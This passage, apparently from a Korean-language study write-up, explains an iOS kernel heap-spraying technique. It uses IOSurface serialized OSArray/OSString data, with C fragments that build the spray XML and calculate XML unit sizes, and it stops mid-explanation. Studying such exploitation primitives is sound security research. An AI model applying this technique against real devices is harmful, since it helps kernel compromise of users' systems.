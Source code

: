 ```c
    // Build the IOSurfaceValueArgs.
    args->surface_id = IOSurface_id;
    // Create the serialized OSArray. We'll remember the locations we need to fill in with our
    
    // 6. 각 XML은 Spraying Data를 담기 위한 OSArray를 포함함
    // xml_data 배열은 current_array_length(256)개의 xml_data를 담고
    // 각 xml_data는 여러 개의 XML 노드로 이루어진 단일 Spraying Data를 포함함
    // data as well as the slot we need to set our key.
    uint32_t **xml_data = malloc(current_array_length * sizeof(*xml_data));
    assert(xml_data != NULL);
    uint32_t *key;
    
    // 7. XML 구성
    size_t xml_size = serialize_IOSurface_data_array(args->xml,
            current_array_length, data_size, xml_data, &key);
    assert(xml_size == xml_units * sizeof(args->xml[0]));
    // ...
```

7단계 “XML 구성”에서는 256개의 `OSString`을 담은 `OSArray`를 구성한다.

여기서 `OSString`은 시리얼라이즈 및 스프레이되는 데이터이며, 
이를 `IOSurfaceRootClient`를 통해 XML 형태로 커널 버퍼에 전송하면, 
커널은 이 `OSString`들에 대한 힙을 할당한다. 

`OSString`이 바로 우리가 스프레이하려는 데이터이기 때문에
이러한 과정을 통해 임의의 데이터를 커널 힙에 스프레이할 수 있는 것이다.

IOSurface 전송용 XML 객체의 각 노드는 `uint32` 하나로 표현할 수 있으며, 
이를 XML 유닛(XML Unit)이라고 부르기도 한다. 

```c
struct IOSurfaceValueArgs {
    uint32_t surface_id;
    uint32_t _out1;
    union {
        **uint32_t xml[0];    //** XML 객체의 각 노드
        char string[0];
    };
};
```

IOSurface 호출 시 입력 길이를 명시해야 하므로, 
각 스프레이 라운드에서 사용할 XML 크기를 정확히 계산하는 것이 매우 중요하다.

3단계 “Spraying Data에 필요한 XML 노드 수 계산”에 대해 살펴보면

시리얼라이즈된 데이터는 커널에서 OSString으로 표현되므로, 끝에 들어가는 `\0`를 고려해야 한다. 
이때 데이터의 마지막 한 바이트를  `\0`로 사용하므로, 실제 데이터 크기는 `size - 1`이 된다. 

이후 공식은 `(actual_size + n - 1) / n`으로 나타내는데, 이는 전형적인 올림(Ceiling) 함수로,
`actual_size`를 4(XML Unit 크기)로 나눈 뒤 올림한 값을 의미한다. 

최종적으로 각 Spraying Data가 차지하는 XML Unit 수를 계산하여 `xml_units_per_data`에 저장한다.

따라서 다음 코드가 사용된다.
